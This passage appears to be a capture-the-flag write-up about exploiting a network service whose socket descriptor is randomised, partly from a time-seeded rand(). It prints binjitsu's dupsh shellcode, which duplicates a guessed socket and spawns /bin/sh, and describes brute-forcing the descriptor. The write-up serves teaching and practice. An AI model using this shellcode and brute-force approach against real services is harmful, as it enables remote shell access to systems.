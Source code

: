 ```c

    return new;
}
```

True to our hypothesis, it looks like that our socket is being randomzied. It looks like that if we can open `/dev/urandom`, then we read 2 bytes from `urandom` and then `mod` that value by `0x400` (at least getdtablesize() returned `0x400` on my system). If we can't open `/dev/urandom`, then we simply call `rand()` and `mod` that value by `0x400`.

What is even more interesting, is that `srand` is seeded with `time(0)`. This means that if we fail to open `/dev/urandom`, then we can predict what the outcome of the function since `rand()` would be called. We can call `rand()` ourselves locally and generate the file descriptor ourselves.

Or... We could simply know that some random number between `0` and `0x400` (1024) is returned, and can simply repeatedly try the exploit until we randomly choose the right file descriptor.

```Small Edit: While the below method is the one I used to complete this challenge, another solution would be to use the shellcraft.findpeersh() payload to automatically find the open socket itself, but where would the fun be in that ;-)```

Being that we will be needing to `dup` our socket for the shellcode, let's utilize the `shellcraft.dupsh()` payload from `binjitsu`.

```
In [6]: print shellcraft.dupsh(88)
dup_5:
    push 0x58
    pop ebx
    push 3
    pop ecx
loop_6:
    dec ecx

    /* call dup2('ebx', 'ecx') */
    push (SYS_dup2) /* 0x3f */
    pop eax
    int 0x80
    jnz loop_6

    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f

    /* call execve('esp', 0, 0) */
    push (SYS_execve) /* 0xb */
    pop eax
    mov ebx, esp
    xor ecx, ecx
    cdq /* edx=0 */
    int 0x80
```

Here, we are calling `dup2()` with our designated file descriptor, in this case `88`. From here, we perform our normal `shellcraft.sh()`. In this way, we simply have to throw the exploit until `88` is our file descriptor and we have execution!

There is one last, small problem that we haven't dealt with yet: `alarm`.

```
sgnet.c-#ifndef _DEBUG
sgnet.c-            sgnet_privdrop(user);
sgnet.c:            alarm(16);
sgnet.c-#endif
sgnet.c-            close(sd);
```

```
